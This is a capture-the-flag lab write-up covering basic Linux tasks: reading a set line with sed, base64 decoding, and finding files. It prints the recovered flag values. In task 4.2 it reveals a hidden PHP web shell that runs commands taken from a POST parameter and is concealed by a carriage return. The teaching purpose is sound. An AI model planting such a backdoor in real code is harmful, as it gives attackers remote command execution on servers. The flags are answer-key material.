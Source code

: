 ## #3.9 - Read the 2345th line of the file that contains flag 19.

*Hint: The sed command can help you with this.*

`flag19` has 3001 lines. To show the content of a specific line number, use `sed -n <line>p <file>`:

~~~
alice@ip-10-10-167-164:~$ wc -l flag19 
3001 flag19
alice@ip-10-10-167-164:~$ sed -n 2345p flag19 
490e69bd1bf3fc736cce9ff300653a3b
~~~

# [Task 4] Data Representation, Strings and Permissions

## #4.0 - Instructions

This set of tasks will require you to understand how certain data is represented on a Linux system. This section may require you to do some independent research.

## #4.1 - Find and retrieve flag 20.

*Hint: Its base64 encoded.*

~~~
alice@ip-10-10-167-164:~$ cat flag20 
MDJiOWFhYjhhMjk5NzBkYjA4ZWM3N2FlNDI1ZjZlNjg=
alice@ip-10-10-167-164:~$ cat flag20 | base64 -d
02b9aab8a29970db08ec77ae425f6e68
~~~

## #4.2 - Inspect the flag21.php file. Find the flag.

*Hint: Jump to Question #5 if you get stuck on this one.*

Let's find `flag21.php` and see what it contains:

~~~
alice@ip-10-10-167-164:~$ find / -name flag21.php 2>/dev/null
/home/bob/flag21.php
alice@ip-10-10-167-164:~$ cat /home/bob/flag21.php 
<?='MoreToThisFileThanYouThink';?>
~~~

The indication let us know that there is a hidden content. Let's use `cat` with the `-A` flag to show all:

~~~
$ cat -A flag21.php 
<?=`$_POST[flag21_g00djob]`?>^M<?='MoreToThisFileThanYouThink';?>$
~~~
